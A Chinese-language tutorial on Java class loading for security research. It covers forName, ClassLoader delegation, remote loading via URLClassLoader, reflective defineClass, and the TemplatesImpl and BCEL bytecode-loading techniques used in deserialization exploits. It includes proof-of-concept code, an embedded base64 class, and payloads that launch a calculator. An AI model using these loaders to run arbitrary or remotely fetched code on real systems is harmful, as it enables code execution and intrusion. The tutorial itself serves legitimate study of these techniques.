Java安全之类加载分析 前言 Java类加载是Java虚拟机（JVM）将类的字节码文件加载到内存，并在运行时动态创建类的过程。类加载是Java语言的核心机制之一，对于理解Java程序的执行过程至关重要。本文将介绍Java类加载的过程、测试和分析，同时探讨ClassLoader的使用、URLClassLoader的任意类加载以及defineClass方法的应用。最后，还会探讨TemplatesImpl和BCEL ClassLoader加载字节码的情况。
什么是类加载? 将类的字节码文件加载到内存中，并在运行时创建类的对象和执行类的方法的过程。
javac是用于将源码文件.java编译成对应的字节码文件.class，其过程大致为:
1 词法和语法分析----语义分析---中间代码生成---优化---生成目标代码
类加载过程
加载（Loading）：加载是指将类的字节码文件从磁盘或网络读取到内存中的过程。当程序要使用某个类时，如果该类还没有被加载到内存中，JVM会通过类加载器查找并加载类的字节码文件。加载完成后，JVM会在内存中生成一个代表该类的Class对象。
验证（Verification）：验证是确保加载的类的字节码符合Java语言规范和安全性要求的过程。验证阶段包括对字节码的结构检查、语义检查、字节码的数据流分析等。
准备（Preparation）：准备是为类的静态变量分配内存并设置默认初始值的过程。在这个阶段，JVM为静态变量分配了内存空间，但还没有赋予初始值。
解析（Resolution）：解析是将常量池中的符号引用转换为直接引用的过程。在解析阶段，符号引用（如类、方法、字段的符号名称）会被替换为直接引用（在内存中的具体地址或指针）。
初始化（Initialization）：初始化是执行类构造器（）的过程，包括静态变量赋值和静态代码块的执行。在这个阶段，JVM会按照程序中的顺序执行类的静态变量赋值和静态代码块。
使用（Usage）：在初始化完成之后，就可以使用类了。使用包括创建类的实例、调用类的方法等操作。当程序需要使用某个类时，虚拟机会检查该类是否已经加载和初始化，如果没有，则会触发相应的加载和初始化操作。
卸载（Unloading）：在特定情况下，类可能会被从内存中卸载，释放资源。当一个类或类的Class对象不再被引用，并且没有任何其他活跃的引用链指向该类时，JVM会判定该类是可卸载的。类的卸载由垃圾回收器负责，它会在适当的时间进行类的卸载操作，释放内存资源

类加载测试 先写一个student类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 package com.garck3h.ccChain3;import java.io.Serializable;public class Student implements Serializable { public String name; private int age; public static int id; static { System.out.println("静态代码块" ); } public static void staticFunction () { System.out.println("静态方法" ); } { System.out.println("构造代码块" ); } public Student () { System.out.println("无参构造函数Student" ); } public Student (String name, int age) { System.out.println("有参构造函数Student" ); this .name = name; this .age = age; } @Override public String toString () { return "Student{" + "name='" + name + '\'' + ", age=" + age + '}' ; } private void action (String act) { System.out.println(act); } }
调用无参的构造方法 ：new Student

调用有参的构造方法 ：new Student(“张三”,18);

Student.staticFunction();
Student.id = 18;
Class c = Student.class;
forName类加载分析 Class.forName(“com.garck3h.classloader.Student”);

调用了静态代码块，也就是说进行了初始化的操作。我们跟进去看一下是怎么实现的，发现是调用了forName0

继续跟进去看一下forName0

这上面还有一个完整版的重载的forname；name：要加载的类的全限定名；initialize：是否在加载类时执行类的静态初始化代码；loader：用于加载类的ClassLoader对象。

我们调用一下这个重载的forname，我们在第二个参数里面设置了false，也就是不会进行初始化。
1 2 ClassLoader clazz = ClassLoader.getSystemClassLoader();Class.forName("com.garck3h.classloader.Student" ,false ,clazz);

进行实例化；发现可以都加载了。也就是说，forname是可以手动选择是否进行初始化的，底层也是使用的ClassLoader。
1 2 3 ClassLoader clazz = ClassLoader.getSystemClassLoader();Class<?> c = Class.forName("com.garck3h.classloader.Student" ,false ,clazz); c.newInstance();

研究ClassLoader 看一下我们之前获取到的系统当前的加载器的clazz，打印发现是Launcher里面的内置类：AppClassLoader

此时需要引入Java的双亲委派模型：在这个模型中，每个类加载器都有一个父类加载器，当类加载器需要加载某个类时，它会首先委托给其父类加载器进行加载，只有在父类加载器无法加载该类时，才会由当前类加载器自己去加载。
在Java中，有三种主要的类加载器：
启动类加载器（Bootstrap Class Loader）：负责加载Java核心类库，它是由C++实现的，是整个类加载器层次结构的顶层。
扩展类加载器（Extension Class Loader）：用来加载Java的扩展类库，默认情况下加载JAVA_HOME/jre/lib/ext目录下的类库。
应用程序类加载器（Application Class Loader）：也称为系统类加载器，负责加载应用程序的类，是开发者自定义的类加载器。它通常从CLASSPATH环境变量所指定的目录或JAR文件中加载类。
当需要加载一个类时，一般会按照以下顺序进行委派：
应用程序类加载器 -> 扩展类加载器 -> 启动类加载器


跟进到ClassLoader

我们一直跟进(中间的忽略)，发现跟到了ClassLoader的defineClass完成了类的加载

这部分已经是C语言写的底层了，实现的是将给定的字节码数组转换成一个类，并生成对应的Class对象。

ctrl+h

类加载机制总结 1、类加载与反序列化
类加载的时候会执行代码
初始化:静态代码块
实例化：构造代码块、无参构造函数
2、动态类加载方法
Class.forname
初始化/不初始化
ClassLoader.loadClass不进行初始化
底层的原理，实现加载任意的类
ClassLoader–SecureClassLoader–URLClassLoader–AppClassLoader
loadClass–findClass–defineClass（从字节码加载）
URLClassLoaer任意类加载 我们实现以下从url里面加载类进行实例化。
我们先创建一个弹计算器的类，然后Javac进行编译为class文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 public class Calc { public Calc () { try { Process pc = Runtime.getRuntime().exec("calc.exe" ); pc.waitFor(); } catch (Exception e){ e.printStackTrace(); } } public static void main (String[] argv) { Calc e = new Calc (); } }
然后用python在编译好的目录起一个web

实现的代码
1 2 3 4 5 URLClassLoader urlClassLoader = new URLClassLoader (new URL []{new URL ("http://192.168.1.7/" )});Class<?> clazz = urlClassLoader.loadClass("Calc" ); clazz.newInstance();

defineClass的使用 我们上面是跟到defineClass，然后在defineClass中直接实现了类加载。这里通过反射来调用它实现类加载。
1 2 3 4 5 6 7 ClassLoader cl = ClassLoader.getSystemClassLoader(); Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass" , String.class,byte [].class, int .class, int .class);defineClassMethod.setAccessible(true ); byte [] code = Files.readAllBytes(Paths.get("D:\\down\\Calc.class" )); Class clazz = (Class) defineClassMethod.invoke(cl, "Calc" , code, 0 , code.length);clazz.newInstance();

这里我们就实现了传入字节码byte实现加载字节流里面的类来进行实例化，在不出网，不能调用url的时候，可以通过发送字节流来实现执行任意代码。
不出网的时候，常用的两个方法：bcel、Templatesimpl；都是使用了defineClass动态加载类。

我们发现ClassLoader里面的defineClass () 被调用时是没有进行初始化的，即使是写在静态代码块static的也不可以。需要使用newInstance来调用其构造方法进行实例化。

使用newInstance即可调用构造函数来实例化

这个问题需要怎么解决呢？下面我们就来说一下另外这两种方式的加载。
TemplatesImpl加载字节码 上面我们说了defineClass一般很难利用到，所以我们这里就来说一下TemplatesImpl。
在TemplatesImpl的 newTransformer是入口点

跟进到getTransletInstance

继续跟进defineTransletClasses，最终在414行里面调用了loader的defineClass

我们跟进去看看；发现它没有声明其作用域，所以具有默认的包级访问权限。

此时完整的利用链是：
1 2 3 4 5 6 7 8 9 TemplatesImpl #newTransformer() TemplatesImpl #getTransletInstance() TemplatesImpl #defineTransletClasses() TemplatesImpl TransletClassLoader #defineClass()
我们来尝试满足它的条件把该链利用起来。当走进getTransletInstance；需要满足_name不能为空null；_class需要等于 null

然后才可以进入到defineTransletClasses；紧接着是_bytecodes不能为空，

然后就是再需要一个的TransformerFactoryImpl类型的_tfactory

这些属性都是私有的，所以我们需要通过反射来修改。写一个方法，把修改属性的代码封装起来。只要传入对象、属性名称和要设置属性值即可。
1 2 3 4 5 public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); }
分别设置上诉提到的四个属性的值
1 2 3 4 5 6 7 8 9 public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("base64编码后的字节码" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"Calc" ); setFieldValue(templates,"_bytecodes" ,codes); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); templates.newTransformer(); }
cmd生成base64字节码文件
1 certutil -encode "Calc.class" "Calc_base64.txt"
运行后发现报错了

要求字节码必须是 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet 的子类

下面我们创建个子类来生成字节码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 package com.garck3h.classloader;import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import java.io.IOException;public class ByteClass extends AbstractTranslet { public static void main (String[] args) throws IOException { ByteClass byteClass = new ByteClass (); } @Override public void transform (DOM document, SerializationHandler[] handlers) throws TransletException { } @Override public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { } public ByteClass () throws IOException { Runtime.getRuntime().exec("calc" ); } }
最终的POC为
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 package com.garck3h.classloader;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import java.lang.reflect.Field;import java.util.Base64;public class TemplatesImplDFC { public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("yv66vgAAADQAJAcAFgoAAQAXCgAHABcKABgAGQgAGgoAGAAbBwAcAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAHQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgcAHgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAApTb3VyY2VGaWxlAQAOQnl0ZUNsYXNzLmphdmEBACFjb20vZ2FyY2szaC9jbGFzc2xvYWRlci9CeXRlQ2xhc3MMABIAEwcAHwwAIAAhAQAEY2FsYwwAIgAjAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEAAQAHAAAAAAAEAAkACAAJAAIACgAAACUAAgACAAAACbsAAVm3AAJMsQAAAAEACwAAAAoAAgAAAA0ACAAOAAwAAAAEAAEADQABAA4ADwACAAoAAAAZAAAAAwAAAAGxAAAAAQALAAAABgABAAAAEgAMAAAABAABABAAAQAOABEAAgAKAAAAGQAAAAQAAAABsQAAAAEACwAAAAYAAQAAABcADAAAAAQAAQAQAAEAEgATAAIACgAAAC4AAgABAAAADiq3AAO4AAQSBbYABlexAAAAAQALAAAADgADAAAAGAAEABkADQAaAAwAAAAEAAEADQABABQAAAACABU" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"xxx" ); setFieldValue(templates,"_bytecodes" ,new byte [][]{codes}); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); templates.newTransformer(); } }

BCEL ClassLoader加载字节码 BCEL 提供了一种方便的方式来操作字节码，使开发人员能够在运行时生成、修改和操作字节码，从而实现对 Java 类的动态修改和定制。它也是调用 defineClass 方法加载字节码，但需要注意的是在Java 8u251以后，该类被删除。
在ClassLoader.loadClass()中，检查该类名是否包含特殊字符串”$$BCEL$$“，如果是的话，会调用 createClass 方法创建该类。

我们跟进createClass；此方法会查找字符串”$$BCEL$$“来确定实际类名的起始位置；然后尝试解码实际类名，将其转换为字节数组，然后返回clazz

紧接着就是判断如果clazz不为空，就调用defineClass来加载。

测试弹计算器：CalcTest.java
1 2 3 4 5 6 7 public class CalcTest { static { try { Runtime.getRuntime().exec("calc.exe" ); } catch (Exception e) {} } }
test.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 package com.garck3h.classloader;import java.io.IOException;public class test { public test () throws IOException { Runtime.getRuntime().exec("calc" ); diaplay(); } public static void diaplay () { System.out.println("hello world!" ); } }
然后将CalcTest生成BCEL形式的字节码.
一般通过BCEL提供的两个类Repository 和Utility 来利用；可以通过Repository查找已加载的类、加载新的类、获取类的信息等操作；这里用于将一个Java Class先转换成原生字节码。Utility类是BCEL提供的一个工具类，其中包含了各种用于处理字节码的实用方法。它提供了字节码转换、解码、编码、类型转换等功能；这里用于将原生的字节码转换成BCEL格式的字节码。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 package com.garck3h.classloader;import com.sun.org.apache.bcel.internal.Repository;import com.sun.org.apache.bcel.internal.classfile.JavaClass;import com.sun.org.apache.bcel.internal.classfile.Utility;import com.sun.org.apache.bcel.internal.util.ClassLoader;import java.io.IOException;import java.nio.file.Files;import java.nio.file.Paths;public class BCELDFC { public static void main (String[] args) throws IOException, ClassNotFoundException, IllegalAccessException, InstantiationException { JavaClass javaClass = Repository.lookupClass(test.class); String code1 = Utility.encode(javaClass.getBytes(), true ); System.out.println(code1); new ClassLoader ().loadClass("$$BCEL$$" + code1).newInstance(); } }
方式一：（加载的恶意类需要同一个包，否则没法识别）

方式二：

总结 1.主要分析了类加载的时候，哪些代码块是初始化的。
2.分析了forname加载的过程，发现初始化是可控的，最终底层是调用了ClassLoader进行加载。
3.分析了ClassLoader，发现最底层是defineClass进行加载
4.使用URLClassLoaer进行任意类加载；通过反射使用defineClass
5.最后研究了两种利用方式
参考：
1.https://segmentfault.com/a/1190000023876273
2.https://www.bilibili.com/video/BV16h411z7o9?p=4
3.https://juejin.cn/post/6844903838927814669
4.https://blog.csdn.net/Thunderclap_/article/details/128901126